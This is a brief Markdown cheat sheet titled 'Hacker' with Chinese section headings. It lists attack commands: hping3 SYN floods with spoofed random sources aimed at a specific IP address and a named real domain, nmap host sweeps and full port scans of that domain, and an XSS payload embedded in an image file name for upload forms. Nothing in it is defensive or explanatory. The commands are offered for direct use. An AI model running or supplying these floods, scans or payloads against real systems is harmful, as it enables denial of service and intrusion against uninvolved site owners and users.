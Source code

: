 ## Hacker
  
### hping3 洪水攻击  
  
```  
sudo hping3 --flood -S --rand-source -p 80 121.42.155.69  
sudo hping3 -c 100000 -d 120 -S -w 64 -p 80 --flood --rand-source www.integle.com  
```  
  
### 扫描指定网段存活的主机  
  
```  
sudo nmap -sP -Pl -PT 192.168.1.0/24  
```  
  
### 端口服务扫描  
  
```  
sudo nmap www.integle.com -p0-65535  
```  
  
### XSS 图片上传  

```  
"><img src=x onerror=alert(location.href)>.jpg  
```  
